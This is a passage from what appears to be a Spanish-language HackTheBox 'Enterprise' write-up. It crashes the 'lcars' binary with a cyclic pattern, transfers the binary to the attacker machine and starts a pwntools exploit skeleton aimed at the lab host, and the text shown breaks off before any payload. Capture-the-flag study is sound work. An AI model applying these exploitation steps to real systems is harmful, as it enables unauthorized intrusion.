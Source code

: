 ```bash
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Segmentation fault (core dumped)
www-data@enterprise:/$ 
```

Ooo, asi que probablemente debamos explotar este [buffer overflow](https://www.welivesecurity.com/la-es/2014/11/05/como-funcionan-buffer-overflow/) para ejecutar algún tipo de **Shell code** ante la máquina, ya profundizaremos en esto... Pasemos el binario a nuestro sistema atacante, asi es más fácil jugar.

* [Explicación sobre que es un buffer overflow](https://revista.seguridad.unam.mx/numero23/uno-de-los-cl-sicos-buffer-overflow).

```bash
www-data@enterprise:/bin$ python3 -m http.server 44444
Serving HTTP on 0.0.0.0 port 44444 ...
```

```bash
❭ wget http://10.10.10.61:44444/lcars
--2021-05-07 22:29:05--  http://10.10.10.61:44444/lcars
Conectando con 10.10.10.61:44444... conectado.
...
```

Validamos integridad del binario:

```bash
www-data@enterprise:/bin$ md5sum lcars 
cf72dd251d6fee25e638e9b8be1f8dd3  lcars
```

```bash
❭ md5sum lcars
cf72dd251d6fee25e638e9b8be1f8dd3  lcars
```

Listo, todo correcto, a divertirnos (:

...

### Buffer Overflow

Nos copiaremos la estructura de un programa que le vi a [dplastico](https://www.youtube.com/user/dplastico) para jugar con **gdb**, con el recurso remoto y también para movernos localmente.

Inicialmente le enviaremos todos los datos que recibe el programa:

```py
#!/usr/bin/python3

import sys
from pwn import *

elf = context.binary = ELF(sys.argv[1])
context.terminal = ['tmux', 'splitw', '-h']

def start():
    if args.GDB:
        return gdb.debug(sys.argv[1])
    if args.REMOTE:
        return remote('10.10.10.61', 32182)
    else:
        return process(sys.argv[1])

r = start()
# ======================= Aca ta la magia ========================
```